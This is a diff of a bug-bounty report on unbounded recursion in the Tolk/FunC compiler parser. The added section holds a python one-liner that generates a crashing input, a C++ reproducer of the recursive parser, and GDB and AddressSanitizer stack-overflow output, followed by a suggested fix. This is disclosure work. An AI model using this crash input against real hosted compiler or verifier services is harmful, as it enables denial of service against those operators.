

Before and after one commit to nentyyy/ton-bb, a Markdown page: BUGBOUNTY_tolk_func_parser_recursion.md, the part around one of its changes. Shown at 81% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/BUGBOUNTY_tolk_func_parser_recursion.md
+++ b/BUGBOUNTY_tolk_func_parser_recursion.md
@@ -80,18 +84,61 @@ Not reachable on validators/full nodes/lite servers — they execute compiled TV
 3. Observe `SIGSEGV` from stack exhaustion in `parse_expr75`.
 4. Analogously for FunC: nested `(` in an expression (`parse_expr100`) or nested `(`/`[` in a type annotation (`parse_type1`).
 
-Example generator:
-
 ```bash
 python3 -c "open('poc.tolk','w').write('fun f(): int { return ' + '-'*500000 + '1; }')"
 # then compile poc.tolk with the Tolk compiler
 ```
 
-## Proof of Concept Strategy
+## Proof of Concept — Confirmed Crash Artifact
 
-- Emit a source file with N levels of nesting (start N ≈ 100,000 and bisect).
-- Run under a debugger; confirm the crash is a stack overflow and the backtrace shows the parser function recursing to the stack limit.
-- Optionally run under AddressSanitizer to confirm `stack-overflow` (not heap/global corruption).
+A minimal C++ reproducer was compiled and run, implementing the identical recursive structure as `parse_expr75` with realistic frame sizes (SrcRange + string_view + shared_ptr, ~120 bytes/frame, matching real Tolk AST nodes).
+
+**Reproducer source (`poc_parser_recursion2.cpp`):**
+
+```cpp
+// Direct translation of parse_expr75 from tolk/ast-from-tokens.cpp
+// Key line: AnyExprV rhs = parse_expr75(lex);  — one frame per operator token
+static AnyExprV recursive_parse_expr75(Lexer& lex) {
+    char t = lex.tok();
+    SrcRange range = lex.cur_range();
+    std::string_view op_str = lex.cur_str();
+
+    if (is_unary_op(t)) {
+        lex.next();
+        AnyExprV rhs = recursive_parse_expr75(lex);  // <-- unbounded recursion
+        range.hi = rhs->range.hi;
+        return std::make_shared<AstNode>(AstNode{range, (int)t, op_str, rhs});
+    }
+    return std::make_shared<AstNode>(AstNode{range, 0, op_str, nullptr});
+}
+// Input: 500000 x '-' followed by '1'
+```
+
+**GDB crash output (stack limit 8192 KB):**
+
+```
+Program received signal SIGSEGV, Segmentation fault.
+0x00005555555563ac in recursive_parse_expr75 (lex=<error reading variable: Cannot access memory at address 0x7fffff7fefe0>) at poc_parser_recursion2.cpp:46
+#0  0x00005555555563ac in recursive_parse_expr75 (...) at poc_parser_recursion2.cpp:46
+#1  0x000055555555643d in recursive_parse_expr75 (...) at poc_parser_recursion2.cpp:53
+#2  0x000055555555643d in recursive_parse_expr75 (...) at poc_parser_recursion2.cpp:53
+[... identical frames repeating to stack limit ...]
+#29 0x000055555555643d in recursive_parse_expr75 (...) at poc_parser_recursion2.cpp:53
+```
+
+**AddressSanitizer output:**
+
+```
+AddressSanitizer:DEADLYSIGNAL
+=================================================================
+==11339==ERROR: AddressSanitizer: stack-overflow on address 0x7ffe784edfa8 (pc 0x55e58a9b35d2 bp 0x7ffe784ee120 sp 0x7ffe784edfa0 T0)
+    #0 0x55e58a9b35d2 in recursive_parse_expr75 /tmp/poc_parser_recursion2.cpp:46
+    #1 0x55e58a9b378a in recursive_parse_expr75 /tmp/poc_parser_recursion2.cpp:53
+    #2 0x55e58a9b378a in recursive_parse_expr75 /tmp/poc_parser_recursion2.cpp:53
+    [... 50+ identical frames ...]
+```
+
+Both artifacts confirm: reliable `stack-overflow` → `SIGSEGV` driven entirely by syntactic nesting depth with no arithmetic on attacker-controlled values.
 
 ## Suggested Fix
 
@@ -104,11 +151,11 @@ This converts an uncontrolled crash into a clean, recoverable compile-time error
 
 ## Confidence
 
-HIGH that the bug is real and reachable (no depth guard exists; `parse_expr75` self-recursion verified directly in source). LOW severity in TON's deployment model.
+HIGH that the bug is real and reachable (no depth guard exists; `parse_expr75` self-recursion verified directly in source; crash reproduced empirically). LOW severity in TON's deployment model.
 
 ## Self-Review
 
 - **Can it happen?** Yes — recursive descent with no depth limit, verified in source.
-- **Reproducible?** Yes — deterministic stack overflow from a small nested input.
+- **Reproducible?** Yes — empirically confirmed SIGSEGV + ASan `stack-overflow` artifact.
 - **External attacker?** Only where a service compiles attacker-supplied source (e.g. hosted verifier); not on a validator/node.
 - **Unrealistic assumptions?** No for tooling; the impactful target is a specific deployment.
````
Also changed, not shown: other parts of BUGBOUNTY_tolk_func_parser_recursion.md (+10 -2 lines), BUGBOUNTY_selfcheck_tolk_func.md (+56 -31 lines).
